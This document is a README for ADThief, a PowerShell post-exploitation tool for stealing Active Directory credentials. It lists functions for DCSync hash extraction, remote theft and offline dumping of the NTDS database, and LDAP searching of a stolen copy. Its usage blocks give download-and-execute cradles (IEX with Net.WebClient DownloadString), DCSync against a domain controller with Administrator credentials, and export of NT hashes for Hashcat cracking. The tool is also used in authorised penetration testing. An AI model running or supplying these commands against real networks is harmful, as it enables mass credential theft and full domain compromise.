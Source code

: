 # ADThief

ADThief is a PowerShell tool to exploit Active Directory database after compromising a Windows domain.

## Functions

```
Invoke-DCSync                   -   extracts domain accounts from Active Directory, including password hashes
Get-ADDatabase                  -   steals Active Directory database remotely
Dump-ADDatabase                 -   dumps domain accounts from an offline Active Directory database, including password hashes
Mount-ADDatabase                -   mounts an Active Directory database as a local LDAP server
Invoke-LdapSearch               -   searchs for domain objects in a mounted Active Directory database
```

## Requirements

The Invoke-DCSync and Get-ADDatabase functions require a privileged access to Active Directory, typically domain admin righs.
The Dump-ADDatabase and Mount-ADDatabase functions require local admin rights.

The Invoke-DCSync and Dump-ADDatabase functions must be launched on a computer with DSInternals PowerShell module installed. The output of these functions can be formatted using custom views provided by the DSInternals module to support different password cracking tools. The Utils.ps1 file contains a function `Add-DSAccountCustomViews` to add optional views 'SecretsDump' and 'SecretsDumpHistory'.

```
PS C:\> Install-Module DSInternals -Scope CurrentUser
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/Utils.ps1')
PS C:\> Add-DSAccountCustomViews
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/ADThief.ps1')
PS C:\> Invoke-DCSync -Server DC.ADATUM.CORP -Credential ADATUM\Administrator | Format-Custom -View SecretsDump
```

The Mount-ADDatabase function must be launched on a computer with AD LDS installed. Please make sure to back up the NTDS.DIT file before using the option 'AllowUpgrade'. 

```
PS C:\> Enable-WindowsOptionalFeature -FeatureName "DirectoryServices-ADAM-Client" -Online
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/ADThief.ps1')
PS C:\> Get-ADDatabase -Server DC.ADATUM.CORP -Credential ADATUM\Administrator
PS C:\> Dump-ADDatabase | Format-Custom -View HashcatNT | Out-File -Encoding ascii ADATUM.hashes
PS C:\> Mount-ADDatabase -AllowUpgrade -LdapPort 1389
PS C:\> Invoke-LdapSearch -Server localhost:1389 -LdapFilter "(&(userAccountControl:1.2.840.113556.1.4.803:=65536)(!userAccountControl:1.2.840.113556.1.4.803:=2))" -Properties * | Select sAMAccountName,servicePrincipalName
PS C:\> Umount-ADDatabase
```

## Credits

* https://blog.netspi.com/getting-started-wmi-weaponization-part-4/
* https://github.com/MichaelGrafnetter/DSInternals
